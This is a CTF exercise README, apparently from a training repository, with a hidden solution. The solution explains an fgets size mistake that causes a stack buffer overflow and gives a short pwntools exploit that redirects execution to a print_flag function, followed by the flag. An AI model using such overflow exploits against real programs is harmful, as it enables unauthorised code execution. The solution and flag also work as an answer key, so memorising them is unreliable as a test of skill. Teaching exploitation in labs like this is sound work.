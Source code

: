 # Hi
### 📄 Description
Can you retrieve the flag?

### ⚙ How to run it
```bash
./hi
```


<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

It's the same as the previous exercise, it uses `fgets` instead of gets but the provided character limit is incorrect (it should be 32).

```python
from pwn import *

context.binary = "./hi"

p = process()
p.sendline(b"A" * 32 + b"a" * 8 + p64(context.binary.functions["print_flag"].address))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
ccit{hi_i_am_a_flag}
```
</details>